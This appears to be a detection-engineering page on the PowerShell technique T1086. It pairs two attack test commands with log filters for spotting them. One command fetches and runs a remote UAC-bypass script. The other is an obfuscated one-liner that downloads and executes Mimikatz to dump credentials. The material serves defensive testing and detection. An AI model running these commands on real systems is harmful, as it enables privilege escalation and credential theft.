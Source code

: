 ## Technique Description

As we know powershell is a powerful command line tool used for code execution. It can be used to run command cmdlet which allows commands to be run locally or on a remote computer. Also we are able to run executatble for malicious and non-malicious purposes. 


## Execution (test script used)

**Potential Attacks:** 
Attack #1: Invoke-AppPathBypass```Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/master/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass" C:\Windows\System32\cmd.exe```

![](../images/T1086_Execute.PNG)

Attack #2: Mimikatz: ```$url='https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS|?{(Item Variable:_).Value.id-ieq$curpid}|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr```

## Detection -- Visibility -- Filter/ Correlation Rule

**Filter:** 
Filter 1: ```("eventcode=4103" OR source="wineventlog:microsoft-windows-powershell/operational" ) AND (Invoke-AppPathBypass AND DownloadString)```
Filter 2: ```("poweshell.exe OR  source="wineventlog:microsoft-windows-powershell/operational" )  AND mimikatz OR sekurlsa="logonpasswords"```
